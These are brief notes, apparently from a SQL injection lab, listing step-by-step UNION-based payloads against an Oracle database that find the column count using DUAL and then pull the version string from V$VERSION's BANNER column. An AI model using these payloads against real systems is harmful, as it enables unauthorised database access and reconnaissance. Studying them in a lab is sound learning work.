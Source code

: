 1. ' UNION SELECT NULL,NULL FROM DUAL-- (need DUAL because this is ORACLE database)
2. ' UNION SELECT 'a',NULL FROM DUAL-- 
3. V$VERSION table has a column name "BANNER".
4. ' UNION SELECT BANNER,NULL FROM V$VERSION-- 